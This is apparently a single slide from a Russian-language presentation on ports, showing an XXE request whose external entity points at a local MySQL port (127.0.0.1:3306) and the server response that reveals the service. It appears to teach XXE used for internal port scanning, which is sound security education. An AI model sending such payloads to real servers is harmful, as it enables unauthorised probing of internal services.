

# Порты
POST /xxe HTTP/1.1

<?xml version="1.0"?>
<!DOCTYPE greeting [
<!ENTITY xxe SYSTEM "http://127.0.0.1:3306" >
]>
<greeting>&xxe;</greeting>

HTTP/1.1 200 OK
<greeting>MySQL</greeting>